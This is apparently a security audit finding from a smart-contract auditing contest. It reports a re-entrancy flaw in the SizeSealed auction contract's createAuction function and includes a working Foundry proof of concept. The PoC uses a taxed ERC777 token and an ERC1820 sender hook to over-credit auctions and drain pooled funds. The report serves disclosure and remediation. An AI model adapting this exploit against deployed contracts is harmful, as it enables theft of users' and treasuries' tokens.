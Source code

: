 ## Tags

- bug
- 2 (Med Risk)
- downgraded by judge
- satisfactory
- selected for report
- sponsor confirmed
- M-04

# [Auction created by ERC777 Tokens with tax can be stolen by re-entrancy attack](https://github.com/code-423n4/2022-11-size-findings/issues/192) 

# Lines of code

https://github.com/code-423n4/2022-11-size/blob/main/src/SizeSealed.sol#L96-L102


# Vulnerability details

## Impact
The createAuction function lacks the check of re-entrancy. An attacker can use an ERC777 token with tax as the base token to create auctions. By registering ERC777TokensSender interface implementer in the ERC1820Registry contract, the attacker can re-enter the createAuction function and create more than one auction with less token. And the sum of the totalBaseAmount of these auctions will be greater than the token amount received by the SizeSealed contract. Finally, the attacker can take more money from the contract global pool which means stealing tokens from the other auctions and treasury.

## Proof of Concept
Forge test 
```
// SPDX-License-Identifier: GPL-3.0
pragma solidity 0.8.17;

import {Test} from "forge-std/Test.sol";

import {SizeSealedTest} from "./SizeSealed.t.sol";
import {ERC777} from "openzeppelin-contracts/contracts/token/ERC777/ERC777.sol";
import "openzeppelin-contracts/contracts/utils/introspection/IERC1820Registry.sol";
import {MockSeller} from "./mocks/MockSeller.sol";
import {MockERC20} from "./mocks/MockERC20.sol";

contract TaxERC777 is ERC777{
    uint32 tax = 50; // 50% tax rate

    constructor(string memory name_,
        string memory symbol_,
        address[] memory defaultOperators_) ERC777(name_, symbol_, defaultOperators_){}
    
    function mint(address rec, uint256 amount) external{
        super._mint(rec, amount, "", "", false);
    }

    function _beforeTokenTransfer(
        address operator,
        address from,
        address to,
        uint256 amount
    ) internal override {
        if(to == address(0)||from==address(0)){ return;}
        // tax just burn for test
        
    }

    function _send(
        address from,
        address to,
        uint256 amount,
        bytes memory userData,
        bytes memory operatorData,
        bool requireReceptionAck
    ) internal override {
        uint tax_amount = amount* tax / 100;
        _burn(from, tax_amount, "", "");
        super._send(from, to, amount-tax_amount, userData, operatorData, requireReceptionAck);
    }

}

contract Callback {
    MockSeller seller;
    uint128 baseToSell;

    uint256 reserveQuotePerBase = 0.5e6 * uint256(type(uint128).max) / 1e18;
    uint128 minimumBidQuote = 1e6;
    // Auction parameters (cliff unlock)
    uint32 startTime;
    uint32 endTime;
    uint32 unlockTime;
    uint32 unlockEnd;
    uint128 cliffPercent;

    uint8 entry = 0;
    uint128 amount_cut_tax;
    constructor(MockSeller _seller, uint128 _baseToSell, uint256 _reserveQuotePerBase, uint128 _minimumBidQuote, uint32 _startTime, uint32 _endTime, uint32 _unlockTime, uint32 _unlockEnd, uint128 _cliffPercent){
        seller = _seller;
        baseToSell = _baseToSell;
        reserveQuotePerBase = _reserveQuotePerBase;
        minimumBidQuote = _minimumBidQuote;
        startTime = _startTime;
        endTime = _endTime;
        unlockTime = _unlockTime;
        unlockEnd = _unlockEnd;
        cliffPercent = _cliffPercent;
    }
    function tokensToSend(address operator, address from, address to, uint256 amount, bytes calldata userData, bytes calldata operatorData) external{
        if(from==address(0) || to==address(0)){return;}
        if(entry == 0){
            entry += 1;
            amount_cut_tax = baseToSell / 2;
            seller.createAuction(
                amount_cut_tax, reserveQuotePerBase, minimumBidQuote, startTime, endTime, unlockTime, unlockEnd, cliffPercent
            );
            return;
        }
        else if(entry == 1){
            entry += 1;
            ERC777(msg.sender).transferFrom(from, to, amount_cut_tax);
            return;
        }
        entry += 1;
        return;
        
    }
    function canImplementInterfaceForAddress(bytes32 interfaceHash, address addr) external view returns(bytes32){return keccak256(abi.encodePacked("ERC1820_ACCEPT_MAGIC"));}
}

contract MyTest is SizeSealedTest {
    
    IERC1820Registry internal constant _ERC1820_REGISTRY = IERC1820Registry(0x1820a4B7618BdE71Dce8cdc73aAB6C95905faD24);
    function testCreateAuctionFromErc777() public {
        TaxERC777 tax777Token;
        address[] memory addrme = new address[](1);
        addrme[0] = address(this);
        tax777Token = new TaxERC777("t7", "t7", addrme);
        
        seller = new MockSeller(address(auction), quoteToken, MockERC20(address(tax777Token)));
        Callback callbackImpl = new Callback(seller, baseToSell, reserveQuotePerBase, minimumBidQuote, startTime, endTime, unlockTime, unlockEnd, cliffPercent);

        // just without adding more function to MockSeller
        vm.startPrank(address(seller));
        _ERC1820_REGISTRY.setInterfaceImplementer(address(seller), keccak256("ERC777TokensSender"), address(callbackImpl));
        tax777Token.approve(address(callbackImpl), type(uint256).max);
        vm.stopPrank();
        seller.createAuction(
            baseToSell, reserveQuotePerBase, minimumBidQuote, startTime, endTime, unlockTime, unlockEnd, cliffPercent
        );
        uint auction_balance = tax777Token.balanceOf(address(auction));
        uint128 auction1_amount = get_auction_base_amount(1);
        uint128 auction2_amount = get_auction_base_amount(2);
        emit log_named_uint("auction balance", auction_balance);
        emit log_named_uint("auction 1 totalBaseAmount", auction1_amount);
        emit log_named_uint("auction 2 totalBaseAmount", auction2_amount);
        assertGt(auction1_amount+auction2_amount, auction_balance);
    }

    function get_auction_base_amount(uint id) private returns (uint128){
        (, ,AuctionParameters memory para) = auction.idToAuction(id);
        return para.totalBaseAmount;
    }
}
```

You should fork mainnet because the test needs to call the ERC1820Registry contract at `0x1820a4B7618BdE71Dce8cdc73aAB6C95905faD24`
```
forge test --match-test testCreateAuctionFromErc777 -vvvvv --fork-url XXXXXXXX
```

Test passed and print logs:
```
...
...
    ├─ [4900] SizeSealed::idToAuction(1) [staticcall]
    │   └─ ← (1657269193, 1657269253, 1657269293, 1657270193, 0), (0xbfFb01bB2DDb4EfA87cB78EeCB8115AFAe6d2032, 0, 340282366920938463463374607431768211455, 0), (0x3A1148FE01e3c4721D93fe8A36c2b5C29109B6ae, 0xCe71065D4017F316EC606Fe4422e11eB2c47c246, 170141183460469231731687303, 10000000000000000000, 1000000, 0x0000000000000000000000000000000000000000000000000000000000000000, (9128267825790407824510503980134927506541852140766882823704734293547670668960, 16146712025506556794526643103432719420453319699545331060391615514163464043902))
    ├─ [4900] SizeSealed::idToAuction(2) [staticcall]
    │   └─ ← (1657269193, 1657269253, 1657269293, 1657270193, 0), (0xbfFb01bB2DDb4EfA87cB78EeCB8115AFAe6d2032, 0, 340282366920938463463374607431768211455, 0), (0x3A1148FE01e3c4721D93fe8A36c2b5C29109B6ae, 0xCe71065D4017F316EC606Fe4422e11eB2c47c246, 170141183460469231731687303, 5000000000000000000, 1000000, 0x0000000000000000000000000000000000000000000000000000000000000000, (9128267825790407824510503980134927506541852140766882823704734293547670668960, 16146712025506556794526643103432719420453319699545331060391615514163464043902))
    ├─ emit log_named_uint(key: auction balance, val: 10000000000000000000)
    ├─ emit log_named_uint(key: auction 1 totalBaseAmount, val: 10000000000000000000)
    ├─ emit log_named_uint(key: auction 2 totalBaseAmount, val: 5000000000000000000)
    └─ ← ()

Test result: ok. 1 passed; 0 failed; finished in 7.64s
```

## Tools Used

foundry

## Recommended Mitigation Steps
check re-entrancy